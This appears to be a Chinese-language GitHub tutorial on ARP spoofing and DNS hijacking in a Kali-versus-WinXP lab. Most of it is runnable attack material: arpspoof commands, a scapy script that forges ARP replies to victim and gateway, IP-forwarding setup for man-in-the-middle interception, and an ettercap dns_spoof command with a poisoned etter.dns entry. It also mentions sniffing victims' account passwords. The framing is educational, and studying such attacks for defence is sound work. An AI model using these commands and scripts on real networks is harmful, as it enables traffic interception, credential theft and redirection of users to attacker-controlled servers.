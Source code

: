 # 一条命令，实现ARP欺骗+DNS劫持

## 0、前言：在开始前你需要知道的东西：

### （1）一丢丢的计网基础（ARP是什么，DNS是什么，在二层和三层的工作原理）

ARP：在局域网内，数据包交换的形式是帧，帧传播依靠的是MAC地址，而我们只有主机的IP地址，192.168.xx.xx/10.0.xx.xx之类的，ARP协议即是将主机的IP地址转为MAC地址的协议，第一次会在局域网内广播ARP报文询问指定IP对应的MAC的地址，有主机回应就会把其MAC地址单播给询问主机，然后询问主机就会将该IP和MAC地址的对应关系写入ARP缓存表以便下次使用，下次就不用再以广播的方式获取MAC地址了

DNS：一般我们访问一个网页（或者资源）都是以域名的形式，无论是在浏览器里输入URL还是直接点击A标签，都是通过域名的方式访问资源，但是在网络三层中数据包不是靠域名来交换的，而是靠资源的IP，这就需要我们将域名转为IP地址以便传输数据包，DNS就是这样的存在，主机将需要访问的资源域名发送到DNS服务器上查询其IP，再将获得的结果发送回来，并且在主机本地缓存一份，以后访问就先从本地缓存先找起，这点很关键，等会我们就是在本地DNS缓存上作文章。

### （2）一丢丢的Linux基础（基础命令的使用）

没什么好说的，dddd

### （3）一丢丢python基础（能看懂代码即可）

下面有一段Python代码，有助于理解ARP欺骗原理（重点）

### （4）关于ARP和DNS怎么扯到一起

这就涉及到局域网中一个特殊且重要的角色——网关，网关是访问外网所必须的，相当于连接内网和外网的纽带，在访问外网时，主机会将请求先发送给网关，由网关转发请求给指定服务器获取资源，所以也由网关来请求DNS服务器将域名转为IP地址（不甚准确，在本地无缓存的情况下成立），那么如何获取网关的MAC地址（网关的IP一般由路由器或者其他设备在拨号完成后自动分配，好几种情况，只需要知道网关IP会自动分配就行了），没错，就是通过如上提到的ARP协议获取网关的MAC地址完成通信。这不就串起来了。

## 1、ARP欺骗概念（单向欺骗，双向欺骗）+DNS劫持概念：

## ![ARP欺骗](./image/ARP欺骗.png)

### ARP单向欺骗：

只欺骗被攻击机，伪造成被攻击机的网关，被攻击机发出的流量都先发送至攻击机

### ARP双向欺骗：

欺骗被攻击机，也欺骗被攻击机实际网关，对被攻击机来说，攻击机（伪造）为其网关，对被攻击机实际网关来说，攻击机（伪造）为被攻击机，实现双向欺骗，无论是攻击机还是被攻击机实际网关发送的流量包都会发送至攻击机。

### DNS劫持（又叫域名劫持）：

![DNS劫持](./image/DNS劫持.png)

攻击机向目标机器发送构造好的ARP应答数据包，ARP欺骗成功后，嗅探到对方发出的DNS请求数据包，分析数据包取得ID和端口号后，向目标发送自己构造好的一个DNS返回包，对方收到DNS应答包后，发现ID和端口号全部正确，即把返回数据包中的域名和对应的IP地址保存进DNS缓存表中，而后来的当真实的DNS应答包返回时则被丢弃。

## 2、ARP欺骗+DNS劫持欺骗实验环境：

```python
Kali攻击机：		IP：192.168.32.132			MAC：00:0c:29:df:c8:ef
WinXP被攻击机：		IP：192.168.32.131			MAC：00:0c:29:dc:23:79
网关：				 IP：192.168.32.2			MAC：00:50:56:f8:b1:7d（可用arp -a查看）
```

## 3、ARP（攻击）欺骗：

```python
kali实施arp欺骗命令：（单向，仅欺骗被攻击机）
arpspoof -i eth0 -t 192.168.32.131 192.168.32.2
(双向：arpspoof -i eth0 -t 192.168.32.2 192.168.32.131)
-i：指定使用的监听网卡
-t：攻击主机目标地址 攻击主机网关地址

附：Python脚本版（效果一样的，更有利于理解原理）：
from scapy.layers.l2 import getmacbyip, Ether, ARP
from scapy.sendrecv import sendp
import time

def arp_spoof():
   iface  ="VMware Virtual Ethernet Adapter for VMnet8"

#被攻击机IP和MAC，WinXP
   target_ip = '192.168.32.131'
   target_mac = '00:0c:29:dc:23:79'

#攻击机IP和MAC，kali
#    spoof_ip = '192.168.32.132'
   spoof_mac = '00:0c:29:df:c8:ef'

#网关IP和MAC
   gateway_ip = '192.168.32.2'
   gateway_mac = getmacbyip(gateway_ip)

   while True:
       #构造网络层数据包，欺骗被攻击机，伪造成网关
       packet = Ether(src=spoof_mac, dst=target_mac)/ARP(hwsrc=spoof_mac, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip, op=2)
       sendp(packet, iface=iface)

       #构造网络层数据包，欺骗网关，伪造成被攻击机
       packet = Ether(src=spoof_mac, dst=gateway_mac)/ARP(hwsrc=spoof_mac, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip, op=2)
       sendp(packet, iface)
       
       time.sleep(1);

if __name__ == '__main__':
    arp_spoof()
```

此时在WinXP上使用arp -a命令查看IP和MAC地址对应关系，网关IP（192.168.32.2）对应MAC地址为攻击机IP（192.168.32.132）对应MAC地址（00:0c:29:df:c8:ef）即为成功欺骗，此时WinXP是无法上网的。

继续进阶，修改/proc/sys/net/ipv4/ip_forward的值为1，开启kali的流量转发功能

```shell
#查看ip_forward值
┌──(root㉿kali)-[~/Desktop]
└─# cat /proc/sys/net/ipv4/ip_forward
0
#修改其值为1
┌──(root㉿kali)-[~/Desktop]
└─# echo 1 > /proc/sys/net/ipv4/ip_forward
#开启成功
┌──(root㉿kali)-[~/Desktop]
└─# cat /proc/sys/net/ipv4/ip_forward     
1
```

这时重新实施arp欺骗，欺骗成功后被攻击机是可以上网，但是是把流量转发给攻击机，由攻击机充当其网关的角色来转发流量，实现流量劫持。

可以使用wireshark，fiddler等抓包工具来抓取数据包，获取被攻击机敏感信息如账号密码等（PS：如有兴趣可自行搜索教程，这里重点不是这个，恕不赘述）

经过如上步骤，已达成DNS劫持的前提条件，下面继续实验

## 4、DNS劫持：

### 准备工作：

安装ettercap，一般kali自带的只有文本版，也可以安装图形化界面版

```shell
┌──(root㉿kali)-[~/Desktop]
└─# apt-get install ettercap-graphical

#安装完成后，修改配置文件/etc/ettercap/etter.dns
┌──(root㉿kali)-[~/Desktop]
└─# vim /etc/ettercap/etter.dns 
#在最后一行（任意位置都可以啦，记得把注释去掉）添加如下字段：
域名	DNS记录类型	访问域名时需要映射的IP
例：
www.bilibili.com	A	192.168.32.133
*	PTR	192.168.32.133
注：第三个字段IP是作为Apache/Nginx服务器域名来访问，映射时攻击机会向DNS服务器发出对该域名（IP）的请求，国内服务器无域名或域名未备案的话大概率不能访问
```

配置文件修改好后，可以开始使用工具进行DNS劫持了

### 命令行版：

```shell
┌──(root㉿kali)-[~/Desktop]
└─# ettercap -Tq -i eth0 -M arp:remote -P dns_spoof /192.168.32.131// /192.168.32.2//
# -Tq:T以文本模式运行，q以安静模式运行
# -i 指定网卡
# -M （MITM-attack）指定中间人攻击方式，这里是ARP欺骗
# -P 指定插件（也算攻击方式的一种）
# 192.168.32.131 被攻击机IP
# 192.168.32.2	网关IP
```

运行如上命令后，被攻击机DNS缓存内就被写入污染后的DNS记录，且短时间内存在，可在被攻击机上使用如下命令查看：

```shell
Windows：
ipconfig /displaydns
Linux:
nscd -g（查看DNS统计信息，需要看是否自带此工具）
```

### 图形化界面版：

```shell
#kali终端输入ettercap -G或kali菜单直接搜索ettercap使用
┌──(root㉿kali)-[~/Desktop]
└─# ettercap -G    
```

![step_1](./image/step_1.png)

![step_2](./image/step_2.png)

![step_3](./image/step_3.png)



![step_4](./image/step_4.png)



此时访问上面配置文件指定域名时会被定向至指定的IP地址，成功实现DNS劫持，且短时间内生效，发来正确的DNS记录也会被丢弃。这个时候就可以去看看效果了。实验结束记得关闭工具的使用，刷新下DNS缓存及ARP缓存，顺便清除浏览器缓存

```shell
Windows：
#刷新DNS缓存 ipconfig /flushdns
#刷新ARP缓存 ARP -d
```

